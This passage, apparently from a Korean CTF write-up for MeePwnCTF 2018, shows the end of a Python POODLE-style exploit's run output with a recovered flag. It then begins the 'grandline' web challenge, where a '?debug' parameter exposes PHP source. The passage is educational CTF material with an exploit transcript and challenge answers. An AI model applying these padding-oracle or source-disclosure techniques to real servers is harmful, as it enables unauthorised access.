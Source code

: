 ```python
r.close()

'''
parallels@ubuntu:/media/psf/Home/writeup/ctf/meectf/2018/image$ python testpoodle.py
[+] Opening connection to 206.189.92.209 on port 12345: Done
MeePwnCTF{pooDL3-this-is-la-vie-en-rose-P00dle!}BBBBBBBB]���8����Z\xbf\xb9r�cV\x8cV\x0fx�
[*] Closed connection to 206.189.92.209 port 12345
'''
```

#### 플래그

FLAG : MeePwnCTF\{pooDL3-this-is-la-vie-en-rose-P00dle\!\}



## grandline

#### 문제 설명

> It was said to be hidden somewhere deep in the Grand Line, someone in the second part of Grand Line can capture it, could you tell them to give it for you. 
>
> Let's start a trip in [Grand Line](http://178.128.6.184/3915ef41890b96cc883ba6ef06b944805c9650ee/)

#### 문제 풀이

소스코드의 맨 아래를 보면 다음과 같은 주석이 존재한다.

```php
<!-- Infact, ?debug will help you learn expression to build Grand Line ( Ex: !<>+-*/ )
```

`?debug` 를 추가해주면 소스를 얻을 수 있다.

```php
<!-- 
/* * *  Power By 0xd0ff9 * * * 
--> 
<?php 
include "config.php"; 
if(isset($_GET['debug'])) 
{ 
    show_source(__FILE__); 
    die("..."); 
} 
?> 
<!DOCTYPE html> 
<html lang="en"> 
<head> 
  <title>The Two piece Treasure</title> 
  <meta charset="utf-8"> 
  <meta name="viewport" content="width=device-width, initial-scale=1"> 
  <!-- Latest compiled and minified CSS --> 
  <link rel="stylesheet" href="css/bootstrap.min.css"> 

  <!-- jQuery library --> 
  <script src="js/jquery.min.js"></script> 

  <!-- Latest compiled JavaScript --> 
  <script src="js/bootstrap.min.js"></script> 
</head> 
<body> 

<?php 
$grandline = $_SERVER['REQUEST_URI']; 
```